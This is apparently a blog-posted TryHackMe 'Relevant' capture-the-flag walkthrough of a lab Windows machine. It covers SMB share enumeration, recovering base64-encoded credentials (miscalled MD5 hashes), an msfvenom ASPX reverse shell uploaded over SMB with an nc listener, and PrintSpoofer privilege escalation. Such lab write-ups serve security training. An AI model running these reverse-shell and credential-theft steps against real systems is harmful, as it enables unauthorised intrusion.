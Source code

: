 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
categories:
  - thm
  - ctf
tags:
  - windows
  - active_directory
published: true
---
```

## Scope:

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```

- Probably a Windows machine.
## Enumeration using `nmap`



## SMB:445
### Null Authentication
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares

```
![crackmapexec show us the SMB shares]({{site.baseurl}}/_posts/Pasted image 20230614185247.png)


- Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```
- The users passwords was MD5 hashed.

> The Hash
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

> The Plain Text
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                          


### SMB relay
- From nmap and cme the SMB signing is disable, so smb relay may work.
- Can not perform smb relay.

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 
smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx
sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell
whoami /all
systeminfo
```
![Bob user priviages]({{site.baseurl}}/_posts/Pasted image 20230614214734.png)

## PrivEsc

- We found `SeImpersonatePrivilage` so we can run [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) which is Abusing Impersonation Privileges From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

![We are SYSTEM!]({{site.baseurl}}/_posts/Pasted image 20230614224001.png)

- Potatoes attack is detected by the AV.
- There is a problem in kali preventing me performing Etrnalblue MS17-010
